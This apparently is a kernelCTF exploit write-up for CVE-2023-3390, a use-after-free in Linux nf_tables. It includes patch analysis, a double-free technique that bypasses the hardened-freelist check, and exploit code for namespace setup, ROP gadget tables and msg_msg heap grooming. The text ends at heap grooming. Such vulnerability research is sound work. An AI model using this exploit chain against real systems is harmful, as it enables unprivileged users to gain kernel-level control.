# Exploit

In the following, we explain our exploit based on [refined exploit](../exploit/extra-refined), which is refined for the explanation. Even though we tested this exploit in the target instances, we also included our [original exploits](../exploit/) that are used for flag submission.

## 0. Table of Contents
- [Exploit](#exploit)
	- [0. Table of Contents](#0-table-of-contents)
	- [1. Background](#1-background)
	- [2. Patch analysis](#2-patch-analysis)
	- [3. Triggering a vulnerability (UAF)](#3-triggering-a-vulnerability-uaf)
	- [4. From UAF to double free](#4-from-uaf-to-double-free)
	- [5. Initialization for exploit](#5-initialization-for-exploit)
		- [5.1 Initialize kernel image-specific values](#51-initialize-kernel-image-specific-values)
		- [5.2 Disable buffering](#52-disable-buffering)
		- [5.3 Setup namespaces](#53-setup-namespaces)
		- [5.4 Pinning the CPU](#54-pinning-the-cpu)
	- [6. Exploit for LTS 6.1.31 Instance](#6-exploit-for-lts-6131-instance)
		- [6.1 Overview](#61-overview)
		- [6.2 Preparation for object manipulation](#62-preparation-for-object-manipulation)
		- [6.3 Heap grooming](#63-heap-grooming)
		- [6.3 Triggering the vulnerability for overlapping chunks](#63-triggering-the-vulnerability-for-overlapping-chunks)
		- [6.4 Heap leak](#64-heap-leak)
		- [6.5 KASLR leak](#65-kaslr-leak)
		- [6.6 PC control for ROP](#66-pc-control-for-rop)
		- [6.7 Post exploitation](#67-post-exploitation)
	- [7. COS-15-17412-101.17 Instance](#7-cos-15-17412-10117-instance)
		- [7.1 Overview](#71-overview)
		- [7.2 Preparation for post-PC control and barrier objects](#72-preparation-for-post-pc-control-and-barrier-objects)
		- [7.3 Triggering vulnerability and chunk overlapping](#73-triggering-vulnerability-and-chunk-overlapping)
		- [7.4 Heap and KASLR leak](#74-heap-and-kaslr-leak)
		- [7.5 PC control for ROP](#75-pc-control-for-rop)
		- [7.6 ROP for Kernel shellcode](#76-rop-for-kernel-shellcode)
		- [7.7 Post exploitation](#77-post-exploitation)
	- [8. LTS 6.1 Mitigation Instance](#8-lts-61-mitigation-instance)
	- [9. Summary](#9-summary)

## 1. Background

Netfilter nf_tables subsystem is a modern packet filtering framework in Linux. It allows to define rules and actions for handling incoming and outgoing network packets. nf_tables subsystem is widely utilized in many Linux distros due to improved performance, simplified syntax, and support for various address families like IPv4, IPv6, and ARP.

nf_tables subsystem consists of several key components: `table`, `chain`, `rule`, `expressions`, and `set`. At the top level, nf_tables are organized with `table`, each representing a distinct logical domain for packet filtering. Within these `table`, `chain`, which act as ordered sets of `rule`, is defined. `rule` represents individual filtering instructions that are constructed by multiple `expression` such as `lookup`, `counter`, or `range`. To efficiently group multiple elements for matching or action, nf_tables offer `set`; It stores unique elements such as address or port number. The `set` could be `named set`, which is bound to `table`, or could be an `anonymous set`, which is bound to a certain `rule`. This `anonymous set` has the same lifetime as the corresponding `rule`.



Each nf_tables component can be created, removed, and updated by the corresponding commands. These commands are transferred through the Netlink socket from userspace to kernel. nf_tables also support a transaction mechanism for commands. This allows multiple commands to be applied as a single unit, ensuring that components are either fully applied or entirely discarded in case of errors or interruptions during updates.

To interact with Netfilter nf_tables subsystem on the user program, [libmnl library](https://www.netfilter.org/projects/libmnl/) and the [libnftnl library](https://www.netfilter.org/projects/libnftnl/index.html) is commonly used. You can find [example codes of libnftnl library](https://git.netfilter.org/libnftnl/tree/examples?h=libnftnl-1.2.1) for details on how to interact with nf_tables subsystem. Our exploit also utilized the libraries above. 

## 2. Patch analysis
- [commit 1240eb93f0616b21c675416516ff3d74798fdc97](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/?id=1240eb93f0616b21c675416516ff3d74798fdc97)
```diff
diff --git a/net/netfilter/nf_tables_api.c b/net/netfilter/nf_tables_api.c
index 3bb0800b3849a..69bceefaa5c80 100644
--- a/net/netfilter/nf_tables_api.c
+++ b/net/netfilter/nf_tables_api.c
@@ -3844,7 +3844,8 @@ err_destroy_flow_rule:
 	if (flow)
 		nft_flow_rule_destroy(flow);
 err_release_rule:
-	nf_tables_rule_release(&ctx, rule); // [1]
+	nft_rule_expr_deactivate(&ctx, rule, NFT_TRANS_PREPARE);
+	nf_tables_rule_destroy(&ctx, rule);
 err_release_expr:
 	for (i = 0; i < n; i++) {
 		if (expr_info[i].ops) {
```

- [net/netfilter/nf_tables_api.c:nf_tables_rule_release()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n3336)
```c
void nf_tables_rule_release(const struct nft_ctx *ctx, struct nft_rule *rule)
{
	nft_rule_expr_deactivate(ctx, rule, NFT_TRANS_RELEASE); // [2]
	nf_tables_rule_destroy(ctx, rule);
}
```
This patch for CVE-2023-3390 fixes the error-path routine of `nf_tables_newrule` function, which handles the command for creating a new rule. It changes the `NFT_TRANS_RELEASE` flag for `nft_tables_expr_deactivate` [2] into `NFT_TRANS_PREPARE` [1].


- [commit 1240eb93f0616b21c675416516ff3d74798fdc97](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/commit/?id=1240eb93f0616b21c675416516ff3d74798fdc97)
> ...
Due to this incorrect error handling, it is possible to access a dangling pointer to the anonymous set that remains in the transaction list.
> ...

According to its description, it prevents use-after-free (i.e., access a dangling pointer) to the anonymous set in handling errors.


## 3. Triggering a vulnerability (UAF)
In this section, we discuss how this wrong flag in `nft_rule_expr_deactivate` causes use-after-free.

- [net/netfilter/nf_tables_api.c:nf_rule_expr_deactivate()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n376)
```c
static void nft_rule_expr_deactivate(const struct nft_ctx *ctx,
				     struct nft_rule *rule,
				     enum nft_trans_phase phase)
{
	struct nft_expr *expr;

	expr = nft_expr_first(rule);
	while (nft_expr_more(rule, expr)) {
		if (expr->ops->deactivate)
			expr->ops->deactivate(ctx, expr, phase);  // [1] 

		expr = nft_expr_next(expr);
	}
}
```
- [net/netfilter/nf_tables_api.c:nf_tables_deactivate_set()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n4946)
```c
void nf_tables_deactivate_set(const struct nft_ctx *ctx, struct nft_set *set,
			      struct nft_set_binding *binding,
			      enum nft_trans_phase phase)
{
	switch (phase) {
	case NFT_TRANS_PREPARE:
		if (nft_set_is_anonymous(set))
			nft_deactivate_next(ctx->net, set); // [2]

		set->use--;
		return;
	case NFT_TRANS_ABORT:
	case NFT_TRANS_RELEASE:
		set->use--;
		fallthrough;
	default:
		nf_tables_unbind_set(ctx, set, binding,
				     phase == NFT_TRANS_COMMIT); // [3]
	}
}
```

```c
#define nft_deactivate_next(__net, __obj)			\
        (__obj)->genmask = nft_genmask_next(__net) // [4]
```

In `nf_tables_deactivate_set` that is invoked by `nft_rule_expr_deactivate`[1], if the flag is `NFT_TRANS_RELEASE` (i.e., before patch), this function will fallthrough `nf_tables_unbind_set` [3]. If the given flag is `NFT_TRANS_PREPARE` (i.e., after patch), it deactivates the given anonymous set [2] using `nft_deactive_next` macro [4].

- [net/netfilter/nf_tables_api.c:nf_tables_unbind_set()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n4924)

```c
static void nf_tables_unbind_set(const struct nft_ctx *ctx, struct nft_set *set,
				 struct nft_set_binding *binding, bool event)
{
	list_del_rcu(&binding->list); // [1]

	if (list_empty(&set->bindings) && nft_set_is_anonymous(set)) {
		list_del_rcu(&set->list); // [2]
		if (event)
			nf_tables_set_notify(ctx, set, NFT_MSG_DELSET,
					     GFP_KERNEL);
	}
}
```

`nf_tables_unbind_set` deletes the given set from bindings [1]. If this given set has no more bindings and is anonymous, it unlinks the set from the set list [2].

- [net/netfilter/nf_tables_api.c:nf_tables_rule_release()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n3336)
```c
void nf_tables_rule_release(const struct nft_ctx *ctx, struct nft_rule *rule)
{
	nft_rule_expr_deactivate(ctx, rule, NFT_TRANS_RELEASE);
	nf_tables_rule_destroy(ctx, rule); // [1]
}
```

- [net/netfilter/nf_tables_api.c:nf_tables_destroy_set()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n4968)
```c
void nf_tables_destroy_set(const struct nft_ctx *ctx, struct nft_set *set)
{
	if (list_empty(&set->bindings) && nft_set_is_anonymous(set))
		nft_set_destroy(ctx, set); // [2]
}
```

- [net/netfilter/nf_tables_api.c:nft_set_destroy()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n4766)
```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
	int i;

	if (WARN_ON(set->use > 0))
		return;

	for (i = 0; i < set->num_exprs; i++)
		nft_expr_destroy(ctx, set->exprs[i]);

	set->ops->destroy(set);
	nft_set_catchall_destroy(ctx, set);
	kfree(set->name);
	kvfree(set); // [3]
}
```

After that, `nf_tables_destroy_set` function, which is eventually reached from `nf_tables_rule_destroy` [1], checks that the given set is an anonymous set and is not bind to anywhere [2]. If so, `nft_set_destroy` function frees this set [3].

- [net/netfilter/nf_tables_api.c:nft_set_lookup()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n3893)

```c
static struct nft_set *nft_set_lookup(const struct nft_table *table,
				      const struct nlattr *nla, u8 genmask)
{
	struct nft_set *set;

	if (nla == NULL)
		return ERR_PTR(-EINVAL);

	list_for_each_entry_rcu(set, &table->sets, list) {
		if (!nla_strcmp(nla, set->name) &&
		    nft_active_genmask(set, genmask)) // [1]
			return set;
	}
	return ERR_PTR(-ENOENT);
}
```

Unfortunately, this freed set object is still accessible in the following commands of the same transaction. This is because this object was not properly deactivated (i.e., `nft_activate_genmask` will return true). From this, we can see why the patch works; It doesn't unbind the set object but only deactivates it, making it non-accessible.





Thus, the following transaction triggers UAF.
- Create a new anonymous `struct nft_set` object with `NFT_MSG_NEWSET` commands.
- Create a new rule with `NFT_MSG_NEWRULE` command including an expression that binds the created anonymous set object and triggers an error with a faulty lookup expression.
- Create a command that accesses already freed `struct nft_set` object (ex. `NFT_MSG_NEWRULE`).


## 4. From UAF to double free

Then, we change this UAF on `struct nft_set` into double free. We can achieve this by binding the dangling object to a new lookup expression. If the transaction is aborted, this lookup expression will be released, causing a double free on the object.

- [net/netfilter/nf_tables_api.c:__nf_tables_abort()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n9068)
```c
static int __nf_tables_abort(struct net *net, enum nfnl_abort_action action)
{
// ...
		case NFT_MSG_NEWRULE:
			trans->ctx.chain->use--;
			list_del_rcu(&nft_trans_rule(trans)->list);
			nft_rule_expr_deactivate(&trans->ctx,
						 nft_trans_rule(trans),
						 NFT_TRANS_ABORT);
			if (trans->ctx.chain->flags & NFT_CHAIN_HW_OFFLOAD)
				nft_flow_rule_destroy(nft_trans_flow_rule(trans));
			break;
// ...
	list_for_each_entry_safe_reverse(trans, next,
					 &nft_net->commit_list, list) {
		list_del(&trans->list);
		nf_tables_abort_release(trans); // [1]
	}
// ...
}
```
- [net/netfilter/nf_tables_api.c:nf_tables_abort_release()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/net/netfilter/nf_tables_api.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n9036)
```c
static void nf_tables_abort_release(struct nft_trans *trans)
{
// ...
	case NFT_MSG_NEWRULE:
		nf_tables_rule_destroy(&trans->ctx, nft_trans_rule(trans)); // [2]
		break;
// ...
}
```

If one of the rules in the transaction is faulty, the kernel will call 
`nf_tables_abort` and finally reach `nf_tables_abort_release`. 
This function calls `nf_tables_rule_destroy`, eventually freeing the set 
object.

- [mm/slub.c:set_freepointer()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/mm/slub.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n414)
```c
static inline void set_freepointer(struct kmem_cache *s, void *object, void *fp)
{
	unsigned long freeptr_addr = (unsigned long)object + s->offset;

#ifdef CONFIG_SLAB_FREELIST_HARDENED
	// [1]
	BUG_ON(object == fp); /* naive detection of double free or corruption */
#endif

	freeptr_addr = (unsigned long)kasan_reset_tag((void *)freeptr_addr);
	*(void **)freeptr_addr = freelist_ptr(s, fp, freeptr_addr);
}
```

Unfortunately, the kernel will fail with `BUG_ON` if we free the same freed
chunk consecutively. This is because Linux's slub allocator performs a naive
double free detection if `CONFIG_SLAB_FREELIST_HARDENED` config is enabled [1]. 

We can bypass this detection by a well-known technique: Allocate another chunk
and free it intermediately. This constructs the slab freelist in the form of `A -> B -> A ...` and can get duplicated chunks without triggering this naive detection
routine.



The following transaction is used to get a double-freed chunk.
- Create a new anonymous `struct nft_set` object (named `set_a`) with `NFT_MSG_NEWSET` command.
- Create another new anonymous `struct nft_set` object (named `set_b`) with `NFT_MSG_NEWSET` command.
- Create a new faulty rule with `NFT_MSG_NEWRULE` command to free `set_a`. This will free the `set_a` object on the error path.
- Create a new faulty rule again to free `set_b`. This will free the `set_b` object on the error path, making the percpu freelist head points `set_b` chunk.
- Create a new rule with `NFT_MSG_NEWRULE` command that binds `set_a`. This rule is destroyed on the transaction abort routine and free `set_a` chunks again.

```c
static void nf_tables_unbind_set(const struct nft_ctx *ctx, struct nft_set *set,
				 struct nft_set_binding *binding, bool event)
{
	list_del_rcu(&binding->list);

	if (list_empty(&set->bindings) && nft_set_is_anonymous(set)) {
		list_del_rcu(&set->list); // [1]
		if (event)
			nf_tables_set_notify(ctx, set, NFT_MSG_DELSET,
					     GFP_KERNEL);
	}
}
```

Note that the `nft_set` object is not only double-freed but also double-unlinked from the list [1].  Normally, this would cause a general protection fault and crash the kernel, but we've found that this doesn't happen when `CONFIG_DEBUG_LIST` is on. Please refer [`CONFIG_DEBUG_LIST` leading to expand vulnerability's capability section of novel-techniques.md](./novel-techniques.md#config_debug_list-leading-to-expand-vulnerabilitys-capability) for more details.

Moreover, we found multiple ways to control the size of `struct nft_set` to determine which cache would hold double-freed chunks. In this exploit, we adjusted `NFTA_SET_USERDATA` to control the object size. Please refer [Usage of `struct nft_set` as a novel target object section of novel-techniques.md](./novel-techniques.md#usage-of-struct-nft_set-as-a-novel-target-object) for details. Using this technique, we could place the set object on `kmalloc-cg-512` and `dyn-kmalloc-512` cache for `lts-6.1.31` and `mitigation-6.1`, and we could place the object on `kmalloc-1k` cache for `cos-105.17412-101.17`.

## 5. Initialization for exploit
Before triggering the vulnerability, the exploit takes the following steps:
1. Initialize kernel image-specific values
2. Disable buffering
3. Setup namespaces
4. Pinning the CPU

### 5.1 Initialize kernel image-specific values
- [exploit/extra-refined/exploit.c#L67](../exploit/extra-refined/exploit.c#L67)
```c
struct kernel_gadget
{
    char *version;
    // flag for exploit caches
    int is_netfilter_cg;

    // KASLR leak related value
    uintptr_t anon_pipe_buf_ops_offset;
    uintptr_t nft_set_ops_offset;

    // task_struct related offsets
    uintptr_t init_task_offset;
    uintptr_t init_nsproxy_offset;
    uintptr_t init_cred_offset;
    uintptr_t init_fs_offset;

    // helpher function
    uintptr_t set_memory_x_offset;
    uintptr_t find_task_by_vpid_offset;
    uintptr_t switch_task_namespaces_offset;
    uintptr_t prepare_kernel_cred_offset;
    uintptr_t commit_creds_offset;
    uintptr_t msleep_offset;

    // ROP gadgets
	// pop rdi ; ret
    uintptr_t pop_rdi_ret_offset;
	// pop rsi ; ret
    uintptr_t pop_rsi_ret_offset;
	// pop rcx ; ret
    uintptr_t pop_rcx_ret_offset;
    uintptr_t ret2user_gadget_offset;
	// push rax ; jmp qword ptr [rsi - 0x7f]
    uintptr_t push_rax_jmp_qptr_rsi_7f_offset;
    // push rsi ; jmp qword ptr [rsi + 0x39]
    uintptr_t pivot_gadget_cg_1_offset;
    // pop rsp ; ret
    uintptr_t pivot_gadget_cg_2_offset;
    // push rdi ; jmp qword ptr [rsi + 0x39]
    uintptr_t pivot_gadget_nocg_1_offset;
    // pop rsp ; pop r13 ; pop r14 ; pop r15 ; jmp 0xffffffff81004130 (nop ; ret)
    uintptr_t pivot_gadget_nocg_2_offset;
    // add rsp, 0xc8 ; jmp 0xffffffff82204200 (ret)
    uintptr_t pivot_gadget_nocg_3_offset;
};
```
We first initialize kernel image-specific values. In particular, we check the kernel version with `uname` syscall and initialize the struct above. This will be used for managing these kernel image-specific values.

```c
if (!init_gadget()) // [1]
{
	printf("[-] exploit not supported\n");
	return -1;
}
if (curr_gadget->is_netfilter_cg) // [2]
{
	main_cg(argc, argv);
}
else
{
	main_nocg(argc, argv);
}
```

After this initialization [1], we proceed to next steps depending on whether the Netfilter objects are in a cgroup cache or not [2]. Note that `lts-6.1.31` and `mitigaion-6.1` use the cgroup cache and `cos-105-17412-101.17` does not.


### 5.2 Disable buffering
- [exploit/extra-refined/exploit.c#L1230](../exploit/extra-refined/exploit.c#L1230)
```c
setvbuf(stdin, 0, 2, 0);
setvbuf(stdout, 0, 2, 0);
setvbuf(stderr, 0, 2, 0);
```  
Disable buffering for `stdin`, `stdout`, and `stderr` with `setvbuf` syscall.

### 5.3 Setup namespaces
- [exploit/extra-refined/exploit.c#L1234](../exploit/extra-refined/exploit.c#L1234)
```c
unshare_setup(getuid(), getgid());
```
- [exploit/extra-refined/exploit.c#L295](../exploit/extra-refined/exploit.c#L295)
```c
void unshare_setup(uid_t uid, gid_t gid)
{
    int temp;
    char edit[0x100];

    unshare(CLONE_NEWNS|CLONE_NEWUSER|CLONE_NEWNET);

    temp = open("/proc/self/setgroups", O_WRONLY);
    write(temp, "deny", strlen("deny"));
    close(temp);

    temp = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", uid);
    write(temp, edit, strlen(edit));
    close(temp);

    temp = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", gid);
    write(temp, edit, strlen(edit));
    close(temp);

    return;
}
```
We create and enter user/network namespace with `unshare` syscall. This is necessary to trigger the vulnerability of the Netfilter nf_tables system as an unprivileged user.

### 5.4 Pinning the CPU
- [exploit/extra-refined/exploit.c#L1235](../exploit/extra-refined/exploit.c#L1235)
```c
set_cpu_affinity(0, 0);
```
- [exploit/extra-refined/exploit.c#L319](../exploit/extra-refined/exploit.c#L319)
```c
void set_cpu_affinity(int cpu_n, pid_t pid) {
        cpu_set_t *set = malloc(sizeof(cpu_set_t));

        CPU_ZERO(set);
        CPU_SET(cpu_n, set);

        if (sched_setaffinity(pid, sizeof(set), set) < 0){
                perror("sched_setaffinity");
                return;
        }
        free(set);
}
```

Pinning the current task into CPU core 0 with `sched_setaffinity` syscall. This is to maintain the exploit context in the same core to utilize percpu slab cache and freelist.

## 6. Exploit for LTS 6.1.31 Instance

In this section, we discuss the exploit in detail for `lts-6.1.31` instances.

### 6.1 Overview
This exploit takes the following steps:
1. Preparation for object manipulation
2. Heap grooming
3. Triggering the vulnerability for overlapping chunks
5. Heap leak
6. KASLR leak
7. PC control for ROP
8. Post exploitation

### 6.2 Preparation for object manipulation
First, we initialize the message queues to manipulate `struct msg_msg` and `struct msg_msgseg`, which are the core objects for `lts-6.1.31` exploit.

- [exploit/extra-refined/exploit.c#L740](../exploit/extra-refined/exploit.c#L740)
```c
init_msgq(msgqids1, 3);
init_msgq(&msgqid3, 1);

// for prevent accessing corrupted freelist
// ...and for objects to leak
// 1k -> TARGET_CACHE (512)
// (for struct pipe_buf) -> (for reclaim)
init_msgq(msgqids2, MSG_MSG_SPRAY_CNT);
```

Each message queue performs the following roles.
 - `msgqids1` is used to reclaim double-freed chunks.
 - `msgqids2` is used for two purposes: to leak the address of `kmalloc-cg-1k` slab chunks and to populate the corrupted freelist.
 - `msgqid3` is used to allocate `struct msg_msgseg` objects.
	
### 6.3 Heap grooming
- [exploit/extra-refined/exploit.c#L750](../exploit/extra-refined/exploit.c#L750)
```c
// defragmentation
spray_msgsnd(msgqids2, MSG_MSG_SPRAY_CNT, 0x400, buf, 1, 2);
spray_msgsnd(msgqids2, MSG_MSG_SPRAY_CNT, CG_MSG_MSG_SIZE, buf, 1, 2);
release_msg(msgqids2, MSG_MSG_SPRAY_CNT);
release_msg(msgqids2, MSG_MSG_SPRAY_CNT);
```
- [exploit/extra-refined/exploit.c#L212](../exploit/extra-refined/exploit.c#L212)
```c
int send_msg(int msgqid, char * data, size_t size, long mtype){
        struct msgp * m = malloc(sizeof(long) + size);
        int ret = -1;
        memcpy(m->mtext, data, size);
        m->mtype = mtype;

        ret = msgsnd(msgqid, m, size, 0);

        free(m);
        return ret;
}

void spray_msgsnd(int * msgq_arr, size_t spray_size, size_t cache_size, char * data, size_t iter, long mtype){
        for(size_t i = 0; i < spray_size; i++)
                for(size_t j = 0; j < iter; j++){
                        if(msgq_arr[i] < 0) continue;
                        if(send_msg(msgq_arr[i], data, cache_size - 48, mtype) < 0)
                                perror("msgsnd");
                }
        return;
}

void release_msg(int * msgq_arr, size_t spray_size){
        int ret;
        char msg_buf[0x2000];
        struct msgp * msg = (struct msgp *)msg_buf;

        for(size_t i = 0; i < spray_size; i++){
                if(msgq_arr[i] < 0) continue;
                memset(msg_buf, 0, sizeof(msg_buf));
                ret = msgrcv(msgq_arr[i], msg, sizeof(msg_buf) - 1, 0, IPC_NOWAIT);
                if(ret < 0) perror("msgrcv");
        }
}
```
We adjust the layout of `kmalloc-cg-1k` and `kmalloc-cg-512` slabs by spraying various sizes of `struct msg_msg` objects with `msgsnd` and `msgrcv` syscalls. This empirically stabilized the exploit somehow (by adjusting the slab layout or increasing the time windows for noise reduction). Every `struct msg_msg` is sprayed `MSG_MSG_SPRAY_CNT`(4096) times.

- [exploit/extra-refined/exploit.c#L755](../exploit/extra-refined/exploit.c#L755)
```c
memset(buf, 0, CG_MSG_MSG_SIZE);
// 1k-sized msg_msg is special
// it needs to be identified for control unaligned msg_msg
// thus, mark the beginn and end of msg content
// ...and let just avoid very first QWORD since it's used by msg_msgseg->next
for (int i = 0; i < MSG_MSG_SPRAY_CNT; i++)
{
	memset(buf, 0, 0x400);
	*(uintptr_t *)(buf + 8) = i;
	*(uintptr_t *)(buf + 0x400 - 48 - 8) = i;
	if (send_msg(msgqids2[i], buf, 0x400 - 48, 1) < 0)
		perror("msgsnd");
}
memset(buf, 0, CG_MSG_MSG_SIZE);
spray_msgsnd(msgqids2, MSG_MSG_SPRAY_CNT, CG_MSG_MSG_SIZE, buf, 1, 2);
```

We spray two types of `struct msg_msg` for exploit. Every `struct msg_msg` is sprayed `MSG_MSG_SPRAY_CNT`(4096) times. 
- 1k-sized `struct msg_msg`: It is sprayed to get an address leak and to enable access to `kmalloc-cg-1k` slabs, where the `struct pipe_buffer` object will be located. We mark the beginning and end of the payload to identify which message queue is holding the corresponding `struct msg_msg`.
- `CG_MSG_MSG_SIZE`(512)-sized `struct msg_msg`: It is sprayed after previous `struct msg_msg` objects using the same message queue id. This occupies `kmalloc-cg-512` slabs, where the vulnerable object (`struct nft_set`) will be located. This `struct msg_msg` contains the 1k-sized `struct msg_msg` pointers in list entry.

- [exploit/extra-refined/exploit.c#L771](../exploit/extra-refined/exploit.c#L771)
```c
// make some room for double freed chunks
for (size_t i = 10; i < 12; i++)
{
	memset(msg_buf, 0, sizeof(msg_buf));
	ret = msgrcv(msgqids2[i], msg, sizeof(msg_buf), 2, IPC_NOWAIT);
	if (ret < 0)
		err(1, "msgrcv");
}
```
To locate the double-freed chunks in the middle of `struct msg_msg` objects, we freed the two `struct msg_msg` from the `kmalloc-cg-512` slabs. We choose the arbitrary indices 10 and 11 for this.

